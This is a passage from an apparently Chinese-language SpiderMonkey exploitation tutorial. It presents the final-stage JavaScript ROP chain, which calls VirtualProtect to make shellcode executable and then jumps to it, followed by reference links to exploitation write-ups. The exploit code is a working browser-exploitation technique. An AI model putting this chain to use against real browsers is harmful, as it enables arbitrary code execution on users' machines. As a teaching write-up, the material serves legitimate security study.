 跳转到BigRopChain处
- gadget #4， BigRopChain
```
const BigRopChain = [
    // 0x1400cc4ec: pop rcx ; ret  ;  (43 found)
    Add(JSBase, 0xcc4ec),
    ShellcodeAddress,

    // 0x1400731da: pop rdx ; ret  ;  (20 found)
    Add(JSBase, 0x731da),
    new Int64(Shellcode.length),

    // 0x14056c302: pop r8 ; ret  ;  (8 found)
    Add(JSBase, 0x56c302),
    PAGE_EXECUTE_READWRITE,

    VirtualProtect,
    // 0x1413f1d09: add rsp, 0x10 ; pop r14 ; pop r12 ; pop rbp ; ret  ;  (1 found)
    Add(JSBase, 0x13f1d09),
    new Int64('0x1111111111111111'),
    new Int64('0x2222222222222222'),
    new Int64('0x3333333333333333'),
    new Int64('0x4444444444444444'),
    ShellcodeAddress,

    // 0x1400e26fd: jmp rbp ;  (30 found) 
    Add(JSBase, 0xe26fd)
];
```

这是最后一个阶段，BigRopChain被分配在另一个大的Uint8Array中。使用VirtualProtect给shellcode区域加上执行权限，之后跳转到shellcode执行。



## 参考链接

[https://developer.mozilla.org/en-US/docs/Mozilla/Developer_guide/Build_Instructions/Windows_Prerequisites](https://developer.mozilla.org/en-US/docs/Mozilla/Developer_guide/Build_Instructions/Windows_Prerequisites)

[https://doar-e.github.io/blog/2018/11/19/introduction-to-spidermonkey-exploitation](https://doar-e.github.io/blog/2018/11/19/introduction-to-spidermonkey-exploitation)

[https://github.com/0vercl0k/blazefox/blob/master/exploits/basic.js](https://github.com/0vercl0k/blazefox/blob/master/exploits/basic.js)
